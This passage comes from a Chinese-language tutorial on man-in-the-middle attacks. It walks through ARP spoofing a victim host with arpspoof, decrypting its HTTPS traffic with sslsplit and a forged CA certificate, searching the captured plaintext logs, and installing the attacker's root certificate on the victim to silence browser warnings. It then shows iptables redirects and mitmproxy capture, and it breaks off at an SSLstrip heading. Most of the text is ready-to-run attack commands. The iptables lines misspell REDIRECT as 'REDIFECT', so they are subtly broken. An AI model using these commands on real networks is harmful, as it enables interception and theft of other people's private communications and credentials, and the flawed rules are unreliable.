 **3).ARP欺骗**
```bash
# -i本地网卡 -t要欺骗的目标， -r:让他认为网关192.168.1.1的mac地址是我本机的mac地址
arpspoof -i eth0 -t 192.168.1.118 -r 192.168.1.1

#可以发现：受害者机器上关于网关的mac已经换成了kali的
```

**4).启动SSLsplit**
```bash
mkdir -p test/logdir

# -D:debug显示详细信息，-l把连接信息记录到哪，-j“越狱”的根目录(sslsplit的)，-S请求具体数据内容保存的目录，-k私钥，-c证书；对ssl加密的在本地8443监听,对明文在本地8080监听
sslsplit -D -l connect.log -j /root/test -S logdir/ -k ca.key -c ca.crt ssl 0.0.0.0 8443 tcp 0.0.0.0 8080

# 所有操作完成了
```
- 然后让被害者访问https的一些网站(会显示证书有问题,是否继续浏览)  
- 我们可以查看日志和浏览器证书以及证书保存信息(`cat connect.log`) ,
- 具体通信数据在:`ls test/logdir`, 每个log文件中内容会有被解密的明文信息（如果还有加密信息,那就是应用程序本身进行了加密的，这里的解密的只是通信过程中针对ssl部分）
  通过关键词查找内容：`grep xxx *.log`这样
- 在受害者机器上安装我们生成的服务器根证书之后再次访问(浏览器就不会弹出警告了)



>全站https/非全站https（比如只是登录等部分页面加了https）



###### 2.`Mitmproxy`工具

- 设置路由表转发规则

```bash
# bug: 只能在8080端口监听，所以需要修改规则
iptables -t nat -F

iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIFECT --to-port 8080
iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIFECT --to-port 8080
```

- 也是使用`arpspoof`进行arp欺骗

```bash
arpspoof -i eth0 -t 192.168.1.118 -r 192.168.1.1
```

- 最后，Mitmproxy侦听

```
mitmproxy -T --host -w mitmproxy.log

# mitmproxy会自动生成一个证书
```



###### 3.`SSLstrip`工具
